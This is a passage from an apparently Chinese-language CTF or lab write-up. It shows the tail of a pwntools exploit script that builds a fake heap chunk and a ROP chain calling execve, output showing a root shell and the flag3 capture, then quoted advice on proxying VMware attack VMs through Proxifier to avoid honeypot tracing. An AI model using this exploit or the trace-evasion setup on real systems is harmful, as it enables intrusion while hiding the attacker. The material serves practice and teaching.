 ```
    },filler=b'\x00')

name(fake_chunk.ljust(0x80,b'\x00'))


payload=flat([
    rdi,username+0x50,
    rsi,0,
    rdx,0,0,
    rax,0x3b,
    syscall
    ])

p.sendlineafter(b'Option:',b'3')
p.sendlineafter(b'Key:',ukey)
p.sendline(payload)
p.sendlineafter(b'Option:',b'9')
p.interactive()
```

![image-20240903131505136](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903131505136.png?imageSlim)

```
>whoami
root
```

进入/root目录得到flag3

![image-20240903131637494](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903131637494.png?imageSlim)

> vmware的流量挂proxifier代理：
>
> 摘自先知社区：https://xz.aliyun.com/t/13167
>
> 很多时候，作为攻击队，我们都需要在纯净的武器库虚拟机中完成自己的渗透（因为蜜罐会尝试获取浏览器Cookie和本地文件，用自己的实体机很快就能被溯源），如何直接让所有的虚拟机都走上代理呢？
>
> **注：本文这个方法，无视任何类型的系统类型和对应配置，只要配置VM网卡出网即可被代理**
>
> 如下配置：
>
> <img src="https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903131747595.png?imageSlim" alt="image-20240903131747595" style="zoom:80%;" />
>
> 应用程序填写如下：
>
> ```
> vmware.exe; vmnetcfg.exe; vmnat.exe; vmrun.exe; vmware-vmx.exe; mkssandbox.exe; vmware-hostd.exe; vmnat.exe; vmnetdhcp.exe
> ```
>
> **VM虚拟机17以上版本-特别补充**
>
> 之前有挺多师傅反馈VMware 17以上版本无法将流量代理出来，苦于本地没装VMware 17，一直没空尝试，今天终于和 `nack0c` 师傅研究出了解决方法：
>
> ![image-20240903131844318](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903131844318.png?imageSlim)
>
> 在“配置文件”的“高级”处，选择“服务与其他用户”，然后勾选上两个选项：
>
> ![image-20240903131910555](https://scofield-1313710994.cos.ap-beijing.myqcloud.com/image-20240903131910555.png?imageSlim)
>
> 勾选上就可以解决VMware 17以上的版本无法代理的问题啦~祝师傅们玩的开心哈哈~
> **如果还是代理不上，请尝试本文的 `3.4 补充` 里面按操作导入配置文件**
